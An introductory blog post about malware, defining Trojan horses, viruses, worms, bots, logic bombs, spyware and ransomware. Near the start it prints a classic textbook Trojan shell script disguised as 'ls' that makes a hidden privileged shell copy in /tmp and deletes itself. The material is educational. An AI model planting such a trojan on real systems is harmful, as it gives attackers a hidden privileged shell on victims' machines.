 ```yaml
---
layout: post
title:  "Gentle Introduction to Malicious Software or Malware"
categories: [security]
comments: true
---
```



#### Definition 
-----------------------

> Malicious logic, more commonly called malware, is a set of instructions that cause a site’s security policy to be violated.[^fn1]

Malware is the swiss-army knife of cyber criminals and any other adversary to your corporation or organization[^fn2]. In earlier days, when UNIX systems were popular, the hackers found a new way to get access to victims machine with a little piece of malicious code like the one below

~~~shell
#! /bin/sh 

# make a privileged, hidden copy of the shell (command interpreter) 
cp /bin/sh /tmp/.xxsh 
chmod o+s, w+x /tmp/.xxsh

# do what the victim thinks is *all* you’re doing 
ls $* 

# delete this file 
rm ./ls
~~~


When this file is saved with the file name 'ls' is victim's home directory, and if the root user in victim's machine executes 'ls' command, above script will run and it creates a copy of the shell in /tmp/ directory with the root previleges. Above script also deletes the file and thus leaves no trail. Now the copy of shell can be used for all non-sensible things by the hacker.

But, this trick won't work anymore as the current directory '.' is not in the system path variable by default in any latest LINUX systems. But nothing stops you from adding '.' into the $PATH variable.

-----------------------
#### Types of malwares and its definitions
-----------------------

Further in this post, let's see the various types of malware and its formal definitions

   1.   A **Trojan horse** is a program with an overt (documented or known) purpose and a covert (undocumented or unexpected) purpose. A Trojan horse is a program with an overt (documented or known) purpose and a covert (undocumented or unexpected) purpose. A *rootkit* is a pernicious trojan hourse. It hides in the system and can avoid detection. A trojan hourse can be a *propagating* one as well.

   2.   A **computer virus** is a program that inserts (a possibly transformed version of) itself into one or more files and then performs some (possibly null) action. 
        -   A boot sector infector is a virus that inserts itself into the boot sector of a disk. Eg. Brain Virus of IBM Machine. 
        -   An executable infector is a virus that infects executable programs. Eg. Jerusalem Virus (Also called Israeli Virus).
        -   A multipartite virus is one that can infect both boot sectors and applications.
        -    A macro virus is a virus composed of a sequence of instructions that is interpreted, rather than executed directly. Eg. Melissa Virus of MSWord97/98 docs.
        -    A terminate and stay resident (TSR) virus is one that stays active (resident) in memory after the application, bootstrapping, or macro interpretation has terminated.
        -    Stealth viruses are viruses that conceal the infection of files.
        -   An encrypted virus is a virus that encrypts all of the virus except the cryptographic key and a decryption key.
        -   A metamorphic virus is a virus that changes its internal structure but performs the same actions each time it is executed. Eg. Zmist(W95)
        -   
   3.   A **computer worm** is a program that copies itself from one computer to another. Eg. Stuxnet worm, the Internet Worm, etc.
   
   4.   A **bot** is malware that carries out some action in coordination with other bots. The attacker, called a botmaster, controls the bots from one or more systems called command and control (C&C) servers or motherships. They communicate over paths called C&C channels. A collection of bots is a **botnet**. Eg. Torpig, GTBot, etc.
        -   Botnet developers discovered how to use this to increase the difficulty of
        locating bots, especially those used as botmasters. The idea is to associate a list of IP addresses with a particular host name. The binding between the host name and the IP address changes rapidly, with the next IP address selected from that list. These botnets are called IP flux botnets

   5.   A **bacterium** or a **rabbit** is a program that absorbs all of some class of resource.
   
   6.   A **logic bomb** is a program that performs an action that violates the security policy when some external event occurs.
   
   7.   **Adware** is a Trojan horse that gathers information for marketing purposes and displays advertisements, often based on the gathered information.
   
   8.   **Spyware** is a Trojan horse that records information about the use of a computer, usually resulting in confidential information such as keystrokes, passwords, credit card numbers, and visits to web sites. The information may be transmitted to a third party, stored for later transmission, or stored for retrieval by a third party. Eg. Pegasus
   
   9.   **Ransomware** is malware that inhibits the use of resources until a ransom, usually monetary, is paid. Eg. Wannacry, CryptoLocker, etc.

Today's malware is combination of various types of above mentioned ones and detecting whether a program is malware or not is **undecidable** as per Rice's Theorem.[^fn3]. And the sheer number of various malware made it impractical to design a rule based system to classify them as malware as best as possible. Solution to this mess is Machine Learning based detection methods. However, the best method also doesn't guarantee that perfect classification. The aim is to reduce the false positives and false negetives in a machine learning based model for classification of malware. 

More work related to ML based malware analysis will be discussed in future blogs.

-----------------------
#### References:
-----------------------
[^fn1]: Computer Security - Arts and Science, *Matt Bishop* (Ch23 of 2nd Edition)
[^fn2]: https://cuckoosandbox.org
[^fn3]: https://en.wikipedia.org/wiki/Rice%27s_theorem
<!--stackedit_data:
eyJoaXN0b3J5IjpbMzA0MDczNTU0XX0=
-->